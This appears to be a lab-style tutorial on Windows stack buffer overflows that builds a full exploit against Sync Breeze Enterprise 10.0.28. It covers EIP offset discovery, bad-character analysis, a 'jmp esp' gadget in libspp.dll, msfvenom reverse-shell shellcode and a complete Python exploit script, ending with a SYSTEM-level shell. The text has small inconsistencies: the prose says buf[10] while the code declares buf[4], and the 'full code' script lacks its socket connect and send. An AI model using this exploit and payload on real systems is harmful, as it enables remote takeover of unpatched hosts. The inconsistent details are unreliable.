









### Basic Stack Overflow Exploit

In the section on Execution Foundations, we learned about the prolog and epilog, and how the stack works. After the prologue, the stack looks like the diagram below:

If local variables within a function are not properly managed, they can cause a buffer overflow, overwriting other parts of the stack as shown in the figure above.

In the example C code below, using `strcpy` without _s (`strcpy_s`) causes a buffer overflow in the `char buf[10]` variable.

```c
int foo() {
    char buf[4];
    strcpy(buf, "AAAAAAAAAAAAAAAAAAAAA");
    return 1;
}

int main() {
    foo();
    printf("Hi");
}
```

Windows has some mitigations against stack-based exploits: DEP, ASLR, CFG, /GS, and SEHOP.

*DEP (Data Execution Prevention)* 

DEP aims to prevent code execution in the stack/heap. DEP marks the stack/heap as NX (non-executable). If the CPU tries to run code in this memory, an access violation error occurs.

*ASLR (Address Space Layout Randomization)*

ASLR will randomize important addresses in memory. For example, process A loads X.dll at 0xAAAAAA, but process B loads X.dll at 0xBBBBBB. This makes the exploit difficult because the attacker needs to know the correct address.

*CFG (Control Flow Guard)*

CFG protects against an attacker redirecting the control flow of a function to an address of their choice. CFG checks indirect function calls; if the address is invalid, it triggers a crash.

*/GS (Stack Cookies/Stack Canaries)*

The compiler places a secret value between the local variables and the return address of the function on the stack. When the function returns, if the cookie has been modified, it will be detected and the process will be terminated.

In this section, we will exploit the program without any mitigations.

### Exploiting Sync Breeze Enterprise
Link exploit DB: https://www.exploit-db.com/exploits/42928
Download version 10.0.28 and install it on Windows. Check the services after installation, and you will see the SyncBreezeEnterprise service as shown below:

Open the web page at localhost:80 and try to log in.

Parse the login POST request, write a Python script to send the username/password to the server from kali VM to this web service.
```python
import socket
import sys

try:
    server = sys.argv[1]
    port = 80
    size = 800
    input_buffer = b"A" * size
    content = b"username=" + input_buffer + b"&password=A"
    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
    buffer += b"Accept-Encoding: gzip, deflate, br, zstd\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.9\r\n"
    buffer += b"Content-Length: " + str(len(content)).encode() + b"\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/153.0.0.0 Safari/537.36 Edg/153.0.0.0\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending buffer....")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buffer)
    s.close()
    print("Done!!!")

except socket.error:
    print("Error connect")
```

Open WinDbg and attach the debugger to the process `syncbrs.exe`.


Run exploit.py and send the payload to the target server syncbrs.exe; the service crashed.

Now eip = 41414141 (AAAA); the return address has been replaced with AAAA because the buffer overflow overwrote the local variable "username".
To check what offset of buffer overwrite eip, create pattern with `msf-pattern_create` and check with `msf-pattern_offset`.
```bash
└─$ msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba
```
Replace pattern in the input_buffer variable in the Python code, then run the exploit again. Now the program crashes with eip=42306142

Check the pattern offset, the result shows the crash is at offset 780.
```bash
└─$ msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780
```
Check esp to find the offset of the buffer that esp points to.
```bash
0:001> dd esp
006d744c  33614232 42346142 61423561 011b6f00
006d745c  011c6978 00000006 006dab08 00000000
006d746c  00000000 00adfd00 00000001 00000000
006d747c  00000000 00000000 00000002 00784250
006d748c  0000000b 00000000 00000000 00adf480
006d749c  00000001 00000000 00000000 00000000
006d74ac  006dd0c4 006daaf8 006d7470 00000000
006d74bc  00000000 00000000 00000000 00000000
```
```bash
└─$ msf-pattern_offset -l 800 -q 33614232
[*] Exact match at offset 788
```
Another problem: in the stack, we can see our pattern is broken off. Reason is bad character, example if in buffer have `\x00` (end of string), buffer will be end in this. We need to find all bad characters in order to create shellcode without them.
In this case, to find the bad characters, send 255 bytes from \x01 to \xff to check. If any bytes are missing in the stack, they are bad characters.

```python
filler = b"A" * 780
eip = b"AAAA"
offset = b"BBBB"
shellcode = bytes(range(1, 256))
input_buffer = filler + eip + offset + shellcode 
```
Send payload and check esp, 0xA is not present after 0x9, so 0xA is a bad char. Keep doing this to check for 0xff, the list has 7 bad characters: `0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D`.



Now the job is to find the address of the opcode `jmp esp` to replace at offset 780, and place the shellcode at offset 788. 

Check mitigations of the process and modules in Windbg. There are 3 options to check this:

*Windbg* 

Check DllCharacteristics, if this field equals 0, there are no mitigations.
```windbg
0:001> lm m syncbrs
Browse full module list
start    end        module name
00400000 00462000   syncbrs  C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
0:001> dt ntdll!_IMAGE_OPTIONAL_HEADER 0x00400000+0xe8+0x18
+0x046 DllCharacteristics : 0
```

*CFF Explorer*

Open syncbrs.exe with CFF Explorer, select Optional Header -> Dll Characteristics.


*Process Hacker*
Open process in process hacker, choose General and see Mitigation Policies.


Next, use msf-nasm_shell to convert `jmp esp` to opcode, then find opcode in module.
```bash
└─$ msf-nasm_shell 32    
nasm > jmp esp
00000000  FF                db 0xff
00000001  E4                db 0xe4
```
Find `\xFF\xE4` via WinDbg, but find in what module without bad characters address. Because if the address has bad characters, the buffer we send in the exploit will be corrupted. You can custom a PE parser to read DllCharacteristics of dll module.
After parsing, pick libspp.dll because it doesn't have mitigations and the address range runs from 10000000 to 10223000, the address range contains no bad characters.
```bash
0:001> lm m libspp
Browse full module list
start    end        module name
10000000 10223000   libspp     (deferred)             
0:001> s -b 10000000 10223000 0xff 0xe4
10090c83  ff e4 0b 09 10 02 0c 09-10 24 0c 09 10 46 0c 09  .........$...F..
```
Now have address of `jmp esp` is `10090c83` without bad char. Finally, create a reverse shell without bad characters.
```bash
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.1.110.49 LPORT=443 -f py -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1745 bytes
buf =  b""
buf += b"\xba\x9e\x70\x9c\xd7\xd9\xc2\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x52\x31\x50\x12\x03\x50\x12\x83\x76"
buf += b"\x8c\x7e\x22\x7a\x85\xfd\xcd\x82\x56\x62\x47\x67"
buf += b"\x67\xa2\x33\xec\xd8\x12\x37\xa0\xd4\xd9\x15\x50"
buf += b"\x6e\xaf\xb1\x57\xc7\x1a\xe4\x56\xd8\x37\xd4\xf9"
buf += b"\x5a\x4a\x09\xd9\x63\x85\x5c\x18\xa3\xf8\xad\x48"
buf += b"\x7c\x76\x03\x7c\x09\xc2\x98\xf7\x41\xc2\x98\xe4"
buf += b"\x12\xe5\x89\xbb\x29\xbc\x09\x3a\xfd\xb4\x03\x24"
buf += b"\xe2\xf1\xda\xdf\xd0\x8e\xdc\x09\x29\x6e\x72\x74"
buf += b"\x85\x9d\x8a\xb1\x22\x7e\xf9\xcb\x50\x03\xfa\x08"
buf += b"\x2a\xdf\x8f\x8a\x8c\x94\x28\x76\x2c\x78\xae\xfd"
buf += b"\x22\x35\xa4\x59\x27\xc8\x69\xd2\x53\x41\x8c\x34"
buf += b"\xd2\x11\xab\x90\xbe\xc2\xd2\x81\x1a\xa4\xeb\xd1"
buf += b"\xc4\x19\x4e\x9a\xe9\x4e\xe3\xc1\x65\xa2\xce\xf9"
buf += b"\x75\xac\x59\x8a\x47\x73\xf2\x04\xe4\xfc\xdc\xd3"
buf += b"\x0b\xd7\x99\x4b\xf2\xd8\xd9\x42\x31\x8c\x89\xfc"
buf += b"\x90\xad\x41\xfc\x1d\x78\xc5\xac\xb1\xd3\xa6\x1c"
buf += b"\x72\x84\x4e\x76\x7d\xfb\x6f\x79\x57\x94\x1a\x80"
buf += b"\x30\x91\xdb\xe4\xf1\xcd\xd9\xf8\xf0\xb6\x57\x1e"
buf += b"\x98\xd8\x31\x89\x35\x40\x18\x41\xa7\x8d\xb6\x2c"
buf += b"\xe7\x06\x35\xd1\xa6\xee\x30\xc1\x5f\x1f\x0f\xbb"
buf += b"\xf6\x20\xa5\xd3\x95\xb3\x22\x23\xd3\xaf\xfc\x74"
buf += b"\xb4\x1e\xf5\x10\x28\x38\xaf\x06\xb1\xdc\x88\x82"
buf += b"\x6e\x1d\x16\x0b\xe2\x19\x3c\x1b\x3a\xa1\x78\x4f"
buf += b"\x92\xf4\xd6\x39\x54\xaf\x98\x93\x0e\x1c\x73\x73"
buf += b"\xd6\x6e\x44\x05\xd7\xba\x32\xe9\x66\x13\x03\x16"
buf += b"\x46\xf3\x83\x6f\xba\x63\x6b\xba\x7e\xae\xf7\xdb"
buf += b"\xe9\x59\x5e\x76\x54\x04\x61\xad\x9b\x31\xe2\x47"
buf += b"\x64\xc6\xfa\x22\x61\x82\xbc\xdf\x1b\x9b\x28\xdf"
buf += b"\x88\x9c\x78"
```

Full code python exploit.
```python
import socket
import sys

try:
    server = sys.argv[1]
    port = 80
    filler = b"A" * 780
    eip = b"\x83\x0c\x09\x10"
    offset = b"BBBB"
    nops = b"\x90" * 10
    shellcode=  b""
    shellcode+= b"\xba\x9e\x70\x9c\xd7\xd9\xc2\xd9\x74\x24\xf4\x58"
    shellcode+= b"\x31\xc9\xb1\x52\x31\x50\x12\x03\x50\x12\x83\x76"
    shellcode+= b"\x8c\x7e\x22\x7a\x85\xfd\xcd\x82\x56\x62\x47\x67"
    shellcode+= b"\x67\xa2\x33\xec\xd8\x12\x37\xa0\xd4\xd9\x15\x50"
    shellcode+= b"\x6e\xaf\xb1\x57\xc7\x1a\xe4\x56\xd8\x37\xd4\xf9"
    shellcode+= b"\x5a\x4a\x09\xd9\x63\x85\x5c\x18\xa3\xf8\xad\x48"
    shellcode+= b"\x7c\x76\x03\x7c\x09\xc2\x98\xf7\x41\xc2\x98\xe4"
    shellcode+= b"\x12\xe5\x89\xbb\x29\xbc\x09\x3a\xfd\xb4\x03\x24"
    shellcode+= b"\xe2\xf1\xda\xdf\xd0\x8e\xdc\x09\x29\x6e\x72\x74"
    shellcode+= b"\x85\x9d\x8a\xb1\x22\x7e\xf9\xcb\x50\x03\xfa\x08"
    shellcode+= b"\x2a\xdf\x8f\x8a\x8c\x94\x28\x76\x2c\x78\xae\xfd"
    shellcode+= b"\x22\x35\xa4\x59\x27\xc8\x69\xd2\x53\x41\x8c\x34"
    shellcode+= b"\xd2\x11\xab\x90\xbe\xc2\xd2\x81\x1a\xa4\xeb\xd1"
    shellcode+= b"\xc4\x19\x4e\x9a\xe9\x4e\xe3\xc1\x65\xa2\xce\xf9"
    shellcode+= b"\x75\xac\x59\x8a\x47\x73\xf2\x04\xe4\xfc\xdc\xd3"
    shellcode+= b"\x0b\xd7\x99\x4b\xf2\xd8\xd9\x42\x31\x8c\x89\xfc"
    shellcode+= b"\x90\xad\x41\xfc\x1d\x78\xc5\xac\xb1\xd3\xa6\x1c"
    shellcode+= b"\x72\x84\x4e\x76\x7d\xfb\x6f\x79\x57\x94\x1a\x80"
    shellcode+= b"\x30\x91\xdb\xe4\xf1\xcd\xd9\xf8\xf0\xb6\x57\x1e"
    shellcode+= b"\x98\xd8\x31\x89\x35\x40\x18\x41\xa7\x8d\xb6\x2c"
    shellcode+= b"\xe7\x06\x35\xd1\xa6\xee\x30\xc1\x5f\x1f\x0f\xbb"
    shellcode+= b"\xf6\x20\xa5\xd3\x95\xb3\x22\x23\xd3\xaf\xfc\x74"
    shellcode+= b"\xb4\x1e\xf5\x10\x28\x38\xaf\x06\xb1\xdc\x88\x82"
    shellcode+= b"\x6e\x1d\x16\x0b\xe2\x19\x3c\x1b\x3a\xa1\x78\x4f"
    shellcode+= b"\x92\xf4\xd6\x39\x54\xaf\x98\x93\x0e\x1c\x73\x73"
    shellcode+= b"\xd6\x6e\x44\x05\xd7\xba\x32\xe9\x66\x13\x03\x16"
    shellcode+= b"\x46\xf3\x83\x6f\xba\x63\x6b\xba\x7e\xae\xf7\xdb"
    shellcode+= b"\xe9\x59\x5e\x76\x54\x04\x61\xad\x9b\x31\xe2\x47"
    shellcode+= b"\x64\xc6\xfa\x22\x61\x82\xbc\xdf\x1b\x9b\x28\xdf"
    shellcode+= b"\x88\x9c\x78"

    input_buffer = filler + eip + offset + nops + shellcode
    content = b"username=" + input_buffer + b"&password=A"
    buffer = b"POST /login HTTP/1.1\r\n"
    buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
    buffer += b"Accept-Encoding: gzip, deflate, br, zstd\r\n"
    buffer += b"Accept-Language: en-US,en;q=0.9\r\n"
    buffer += b"Content-Length: " + str(len(content)).encode() + b"\r\n"
    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += b"Host: " + server.encode() + b"\r\n"
    buffer += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/153.0.0.0 Safari/537.36 Edg/153.0.0.0\r\n"
    buffer += b"\r\n"
    buffer += content

    print("Sending buffer....")
except socket.error:
    print("Error connect")
```

We got a reverse shell connection.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.1.110.49] from (UNKNOWN) [10.1.110.42] 52415
Microsoft Windows [Version 10.0.26200.9457]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system

C:\Windows\System32>
```